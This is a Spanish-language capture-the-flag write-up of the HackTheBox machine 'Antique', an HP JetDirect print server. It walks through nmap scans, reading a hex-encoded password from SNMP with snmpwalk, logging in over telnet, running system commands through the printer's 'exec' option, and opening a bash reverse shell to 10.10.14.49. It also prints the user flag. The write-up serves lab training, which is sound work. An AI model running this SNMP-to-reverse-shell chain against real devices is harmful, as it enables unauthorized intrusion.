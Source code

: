 # Maquina Antique

Maquina de resolución fácíl. Básicamente accedemos a un servidor de impresión HP JetDirect.

Las técnicas que veremos son:

* SNMP Enumeration
* Network Printer Abuse
* CUPS Administration Exploitation (ErrorLog)
* EXTRA -> (DirtyPipe) [CVE-2022-0847]"


## Enumeración

### Primera vez, 10/07/2022 - Guardamar de la Safor

Primero realizamos un escaneo rápido y silencioso.

<pre>
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.107 -oG allPorts
</pre>

Nos devuelve un único puerto, el 23.

<pre>
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.107 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-11 01:36 CEST
Initiating SYN Stealth Scan at 01:36
Scanning 10.10.11.107 [65535 ports]
Discovered open port 23/tcp on 10.10.11.107
Completed SYN Stealth Scan at 01:37, 12.76s elapsed (65535 total ports)
Nmap scan report for 10.10.11.107
Host is up, received user-set (0.053s latency).
Scanned at 2022-07-11 01:36:59 CEST for 13s
Not shown: 65533 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.93 seconds
           Raw packets sent: 66376 (2.921MB) | Rcvd: 65845 (2.634MB)

</pre>

Podemos realizar un escaneo exhaustivo al puerto 23 con:

<pre>
nmap -sCV -p23 10.10.11.107 -oN targeted
</pre>

Esto nos dice poco, peor sabemos que el pueto 23 es un puerto telnet.


<pre>
❯ /bin/cat targeted
# Nmap 7.92 scan initiated Sun Jul 10 22:21:25 2022 as: nmap -sCV -p23 -oN targeted 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=7/10%Time=62CB34CC%P=x86_64-pc-linux-gnu%r(NULL
SF:,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetReq
SF:uest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x2
SF:0JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNS
SF:VersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusR
SF:equestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:
SF:\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerbe
SF:ros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20J
SF:etDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswor
SF:d:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r
SF:(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x
SF:20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSe
SF:rver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDire
SF:ct\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20
SF:")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect
SF:\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")
SF:%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetD
SF:irect\n\nPassword:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 10 22:24:10 2022 -- 1 IP address (1 host up) scanned in 165.07 seconds
</pre>

## Explotación

### Primer método.

Este método de explotación se ha etudiado viendo el vídeo de **S4vitar**:

[S4ViOnLive HackTheBox | Antique](https://www.youtube.com/watch?v=pvtergVU__4)  

En este vídeo se nos presenta la utilidad **snmpwalk** para enumeración snmp. Sabemos que es snmp porque es un servidor de impresión pero podriamos haberlo averiuado haciendo un escaneo de puertos UDP.

<pre>
nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107
</pre>

Aqui veríamos que está abierto el puerto **UDP 161 - snmp**

<pre>
❯ nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-11 02:11 CEST
Initiating Ping Scan at 02:11
Scanning 10.10.11.107 [4 ports]
Completed Ping Scan at 02:11, 0.08s elapsed (1 total hosts)
Initiating UDP Scan at 02:11
Scanning 10.10.11.107 [100 ports]
Discovered open port 161/udp on 10.10.11.107
Warning: 10.10.11.107 giving up on port because retransmission cap hit (2).
Completed UDP Scan at 02:11, 4.53s elapsed (100 total ports)
Nmap scan report for 10.10.11.107
Host is up (0.041s latency).
Not shown: 89 open|filtered udp ports (no-response), 10 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.82 seconds
           Raw packets sent: 321 (18.892KB) | Rcvd: 12 (939B)
</pre>

La utilidad ostrada por **S4vitar** nos indica varoas coas, pero la mas importante es el número 1 del final. S o se le pasa número toma por defecto el 2 que es un nodo por encima de la ráiz:

<pre>
snmpwalk -c public -v2c 10.10.11.107
iso.3.6.1.2.1 = STRING: "HTB Printer"
</pre>

Nos devuelve información del sercidor de impresión. Si le ponemos un 1 nos dá información desde el inicio del árbol de la jerarquia.


<pre>
 snmpwalk -c public -v2c 10.10.11.107 1
iso.3.6.1.2.1 = STRING: "HTB Printer"
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
iso.3.6.1.4.1.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
</pre>

Vemo que devueve información sensible. Desde la palabra BITS se muestra un código que a priori parece la representación númerica de un código hexadecimal ya que inguno supera los 3 dígitos ni el número 255. Para decodificar la secuencia hexadecimal hacemos lo siguiente:


<pre>
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5# "2Rbs3CSs$4EuWGW(8i	IYaA"1&1A5# 
</pre>

Podemos intuir que la password es **P@ssw0rd@123!!123**.
Tambien podríamos haberlo decodificado en alguna herramienta online.

Probamos a entrar con dicha password.

<pre>
❯ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123q

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
> 
</pre>

Llama la atención la opción de ejecutar comandos con **exec**.

Hacemos una primera prueba co whoami.

<pre>
> exec whoami
lp
> 
</pre>

Pues vamos a por una consola. Nos ponemos a la escucha por el puerto 443 y enviamos el comando **bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"**

<pre>
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.107] 53052
bash: cannot set terminal process group (1023): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ 
</pre>

Y aqui ya podemos ver la primera flag, del user.

<pre>
lp@antique:~$ ls
ls
exploit
exploit.c
telnet.py
user.txt
lp@antique:~$ cat user.txt
cat user.txt
2c0e2895a73ddd77e512d7069a15d852
lp@antique:~$ 
</pre>

Podemos ahora hace un tratamiento de la consola:

<pre>
lp@antique:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'   
python3 -c 'import pty;pty.spawn("/bin/bash")'
</pre>









